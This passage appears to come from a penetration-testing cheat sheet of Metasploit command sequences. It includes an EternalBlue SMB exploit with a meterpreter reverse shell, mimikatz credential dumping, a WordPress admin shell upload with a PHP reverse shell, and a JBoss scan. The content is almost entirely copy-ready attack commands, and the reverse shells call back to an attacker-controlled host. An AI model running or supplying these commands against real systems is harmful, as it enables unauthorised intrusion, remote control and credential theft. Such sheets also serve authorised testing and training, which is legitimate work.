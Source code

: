**Exploit**

```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <ip>
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
set VerifyTarget true
exploit
```

**Post‑ex** (dump creds)

```text
use post/windows/gather/credentials/mimikatz
set SESSION <id>
run
```

---

### A.2 WordPress (Authenticated Upload)

**Detect**

```text
use auxiliary/scanner/http/wordpress_scanner
set RHOSTS <ip>
set RPORT 80
set TARGETURI /
run
```

**Exploit** _(need valid admin creds)_

```text
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS <ip>
set RPORT 80
set TARGETURI /
set USERNAME <wp_admin>
set PASSWORD <wp_pass>
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
exploit
```

---

### A.3 JBoss (Deployment/Console)

**Detect**

```text
use auxiliary/scanner/http/jboss_vulnscan
set RHOSTS <ip>
set RPORT 8080
run
```
